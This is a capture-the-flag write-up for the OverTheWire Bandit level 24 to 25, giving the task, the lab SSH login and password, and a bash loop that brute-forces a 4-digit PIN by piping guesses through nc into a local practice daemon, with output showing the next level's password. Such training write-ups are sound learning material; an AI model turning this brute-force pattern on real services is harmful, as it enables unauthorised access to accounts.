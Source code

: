 # Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.  
You do not need to create new connections each time


# Datos de acceso al nivel
ssh bandit24@bandit.labs.overthewire.org -p 2220
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar


# Solución
```
for i in {5000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002


Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$
```

# Notas adicionales
 

# Referencias